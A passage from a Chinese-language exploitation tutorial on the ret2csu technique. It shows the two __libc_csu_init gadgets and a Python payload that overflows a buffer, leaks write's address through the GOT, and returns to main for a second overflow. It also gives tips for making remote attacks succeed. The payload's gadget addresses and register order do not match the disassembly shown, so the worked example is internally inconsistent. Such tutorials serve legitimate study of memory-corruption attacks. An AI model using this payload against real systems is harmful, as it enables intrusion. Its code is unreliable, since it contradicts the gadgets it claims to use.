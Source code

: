 - r14   =rsi=arg2

- r15d = edi=arg1[局限在于只能设置32位的值，而非64位的%rdi]

- r12= call address

    1.执行gad1
    
    ```assembly
    .text:000000000040089A pop rbx  必须为0
    .text:000000000040089B pop rbp  必须为1 
    .text:000000000040089C pop r12  call!!!!
    .text:000000000040089E pop r13  arg3
    .text:00000000004008A0 pop r14  arg2
    .text:00000000004008A2 pop r15  arg1
    .text:00000000004008A4 retn  ——> to gad2
    ```
    
    2.再执行gad2
    
    ```assembly
    .text:0000000000400880 mov rdx, r13
    .text:0000000000400883 mov rsi, r14
    .text:0000000000400886 mov edi, r15d
    .text:0000000000400889 callqword ptr [r12+rbx*8] call!!!
    .text:000000000040088D add rbx, 1
    .text:0000000000400891 cmp rbx, rbp #为了rbx = rbp，所以rbp必须为1，这样jnz不满足，顺序执行add rsp, 8; 56字节垫板后二次利用。
    .text:0000000000400894 jnz short loc_400880
    .text:0000000000400896 add rsp, 8
    .text:000000000040089A pop rbx
    .text:000000000040089B pop rbp
    .text:000000000040089C pop r12
    .text:000000000040089E pop r13
    .text:00000000004008A0 pop r14
    .text:00000000004008A2 pop r15
    .text:00000000004008A4 retn ——> 构造一些垫板(7*8=56byte)就返回了
    ```

#### 构造通用ROP链

大概思路就是这样，我们下来构造常用的ROP链——泄露write函数的真实地址。

我们先构造payload，利用write()输出write在内存中的地址。注意我们的gadget是call qword ptr [r12+rbx* 8]，所以我们**应该使用write.got的地址而不是write.plt的地址**[write.got得到的是got表中write条目的地址，条目内容才是write函数的真实跳转地址，所以适合call * ]。并且为了返回到原程序中，重复利用buffer overflow的漏洞，我们需要继续覆盖栈上的数据，直到把最终的返回值[第二次到达retq时]覆盖成目标函数的main函数为止。

    payload1 =  "\x00"*136  #paddings
    payload1 += p64(0x4006aa) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(got_write) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
    payload1 += p64(0x400690) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
    payload1 += "\x00"*56 #垫板paddings
    payload1 += p64(main) #二次溢出利用


这样就可以调用write函数，打印出write的函数地址

要注意的是，**当我们把程序的io重定向到socket上的时候，根据网络协议，因为发送的数据包过大，read()有时会截断payload，造成payload传输不完整造成攻击失败。这时候要多试几次即可成功。**如果进行远程攻击的话，需要保证ping值足够小才行（局域网）
